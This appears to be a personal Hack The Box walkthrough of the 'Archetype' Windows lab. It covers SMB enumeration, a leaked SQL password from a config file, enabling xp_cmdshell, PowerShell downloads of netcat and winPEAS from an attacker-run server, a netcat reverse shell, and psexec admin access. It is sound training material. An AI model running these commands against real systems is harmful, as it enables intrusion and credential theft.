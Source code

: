 # Archetype - Hack The Box
**OS:** Windows
**Difficulty:** Very Easy

## Enumeration
Enumeration is always the first step.
Run:
```bash
nmap -sC -sV <target>
```
I noticed that there are SMB ports open, and a microsoft SQL server running on port 1433.

## SMB enumeration
run:
```bash
smbclient -N -L \\\\<target>\\
```
A few shares come up, and the backups share seems to be accessible.
I then enumerated the backups share.
```bash
smbclient -L \\\\<target>\\backups
```
A file comes up after running this, called prod.dtscConfig
I downloaded it using ```get```.
I checked the contents of the file using ```cat```, and noticed that there is a password for the user ```archetype/sql_svc```, which is ```M3g4c0rp123```.
The ```sql_svc``` part of the user suggested that these are the credentials to a user on the SQL server, so I then used impacket mssqlclient.
## Impacket
Since I did all of this in kali, there was no need for me to install anything.
I ran:
```bash
impacket-mssqlclient ARCHETYPE/sql_svc@<target> -windows-auth
```
and then entered the password I previously retrieved.
After this, I had access to the mssql server :)
## Foothold
After connecting, It is useful to run the ```help``` command to see what commands we have access to.
I checked if this user is a sysadmin:
```SQL
SELECT is_srvrolemember('sysadmin');
```
and the output was ```1```, which means true.

## xp_cmdshell
Something very interesting I've learned through this box was ```xp_cmdshell```.
It basically allows us to run cmd commands through the ms sql server.
I checked if it was enabled, but it wasn't.
I had to run these commands to enable it:
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
Now we can run commands!

## Getting a reverse shell
I opened a python http server on port 80
```bash
python3 -m http.server 80
```
and opened a netcat listener on port 443
```bash
nc -lvnp 443
```
#### quick flag explanation:
- -l: listen
- -v: verbose
- -n no DNS resolution
- -p 443: use port 443
#### back to reverse shell
in the same directory that I ran those commands, i has nc64.exe, which is a netcat binary for windows.
I used ```xp_cmdshell "powershell -c <command>``` to use powershell, as it gives us more features compared to xp_cmdshell alone.
I had to find a directory where I could download the netcat binary with my level of privilege.
I found that the Downloads folder worked, so I downloaded the binary to that folder.
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://<target>/nc64.exe -outfile nc64.exe"
```
Now we can bind cmd.exe throught the nc binary to our listener.
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
<target> 443"
```
After going back to the netcat tab I had running, cmd was running through it.
## Privilege escalation
for privilege escalation, I use winPEAS, which automated the process.
I used the python http server running on port 80, and ran:
```
powershell
wget http://<target>/winPEASx64.exe -outfile winPEASx64.exe
```
and simply ran it
```
.\winPEASx64.exe
```
There was ```SeImpersonatePrivilege```, which is apparently vulnerable to the "juicy potato exploit", but I also noticed that there are some files that could contain credentials. One of these files was ```ConsoleHost_history.txt```.
I navigated to that file and printed its contents, only to find the admin password.
## Finally escalating privilege
another tool from impacket, ```psexec```, which gives us direct shell access through SMB.
```bash
impacket-psexec administrator@<target>
```
I entered the password, and got admin access :)
I went to the desktop, and found the flag